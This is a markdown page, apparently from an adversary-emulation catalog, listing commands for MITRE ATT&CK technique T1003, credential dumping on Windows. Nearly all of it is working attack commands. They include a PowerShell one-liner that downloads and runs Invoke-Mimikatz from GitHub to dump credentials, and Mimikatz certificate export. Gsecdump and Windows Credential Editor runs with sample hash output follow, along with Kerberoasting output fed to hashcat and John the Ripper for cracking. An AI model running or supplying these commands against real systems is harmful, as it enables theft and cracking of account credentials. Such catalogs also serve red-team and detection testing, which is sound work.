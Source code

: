 # Credential Dumping

MITRE ATT&CK Technique: [T1003](https://attack.mitre.org/wiki/Technique/T1003)


## Powershell Mimikatz - Dump Credentials

Input:

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

## Powershell Mimikatz - Dump Certificates

Input:

    PS> Import-Module Invoke-Mimikatz.ps1 
    Invoke-Mimikatz –command '"privilege::debug"' 
    Invoke-Mimikatz –command '"crypto::capi"' 
    Invoke-Mimikatz –command '"crypto::certificates /export"' 
  
## Gsecdump

[Gsecdump](https://www.truesec.se/sakerhet/verktyg/saakerhet/gsecdump_v2.0b5)

Input:

    gsecdump -a

## Windows Credential Editor

[Windows Credential Editor](http://www.ampliasecurity.com/research/windows-credentials-editor/)

Input:

    wce -o output.txt

Output:

    C:\>wce -o output.txt
    WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
    Use -h for help.

    C:\>type output.txt
    test:AMPLIALABS:01020304050607080900010203040506:98971234567865019812734576890102
    C:\>

## Powershell Mimikatz - Dump Service Account Passwords (Keberoast)

[Powersploit] (https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

Input:

    PS> invoke-kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash <hash>
    
[hashcat] (https://github.com/hashcat/hashcat.git)

    PS> invoke-kerberoast -OutputFormat HashCat | Select-Object -ExpandProperty hash > ./krbtgs-23.txt
    hashcat -m 13100 -a 0 -w 4 --session kerb -o hash.pot --powertune-enable ./krb-tgs-23.txt
    /opt/rockyou.txt -r ./hashcat-3.10/rules/dive.rule

[JohnTheRipper (Magnum Ripper)] (https://github.com/magnumripper/JohnTheRipper)

    PS> invoke-kerberoast -OutputFormat John | Select-Object -ExpandProperty hash
    
